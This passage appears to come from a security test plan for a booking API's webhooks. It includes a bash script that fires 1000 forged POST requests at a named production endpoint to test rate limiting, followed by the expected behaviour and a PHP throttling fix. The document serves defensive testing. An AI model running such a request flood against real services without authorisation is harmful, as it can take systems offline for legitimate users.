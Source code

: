 **Risk Level**: 🟡 **HIGH**
**CVSS Score**: 7.1 (High)
**Impact**: Duplicate charges, data inconsistency, billing fraud

---

#### Attack Scenario 2.3: Webhook Rate Limit Bypass / DDoS

**Objective**: Overwhelm system with forged webhooks to cause denial of service

**Attack Steps**:
```bash
#!/bin/bash
# Send 1000 webhook requests in rapid succession

for i in {1..1000}; do
  curl -s -o /dev/null -X POST https://api.askproai.de/api/webhooks/retell/function-call \
    -H "Content-Type: application/json" \
    -d "{\"call_id\":\"attack_${i}\",\"function_name\":\"book_appointment\"}" &

  if [ $((i % 100)) -eq 0 ]; then
    echo "Sent $i requests..."
  fi
done

wait
echo "Attack complete. System response time:"
time curl https://api.askproai.de/api/health
```

**Expected Secure Behavior**:
- Rate limiting kicks in after 100 requests/min
- Subsequent requests return HTTP 429 Too Many Requests
- System remains responsive to legitimate traffic

**Vulnerability Indicators**:
- ❌ All 1000 requests accepted (HTTP 200)
- ❌ System becomes unresponsive
- ❌ Database CPU spikes to 100%
- ❌ Legitimate users cannot access system

**Fix Required**:
```php
// Add rate limiting middleware to routes/api.php
Route::middleware(['throttle:webhook'])->group(function () {
    Route::post('/webhooks/retell', [...]);
    Route::post('/webhooks/calcom', [...]);
});

// config/rate-limiting.php
'webhook' => [
    'limit' => 100,
    'per_minute' => 1,
    'by' => fn (Request $request) => $request->ip(),
],
```
